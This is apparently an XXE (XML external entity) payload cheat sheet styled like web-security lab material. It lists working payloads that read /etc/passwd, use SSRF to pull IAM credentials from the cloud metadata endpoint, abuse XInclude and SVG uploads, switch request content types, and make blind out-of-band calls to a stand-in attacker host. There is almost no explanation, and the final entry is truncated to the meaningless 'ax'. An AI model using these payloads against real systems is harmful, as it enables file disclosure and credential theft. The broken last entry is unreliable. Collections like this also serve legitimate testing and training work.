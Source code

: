 ### XXE to retrieve files

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```

### XXE to perform SSRF

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
### XXE using XInclude to retrieve files

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

### XXE trough SVG

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### XXE via modified content type

Original:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar 
```

Modified:

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo> 
```

### Blind XXE via Out-of-Band network

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]> 
```

### Blind XXE with out-of-band interaction via XML parameter entities

```
ax
```
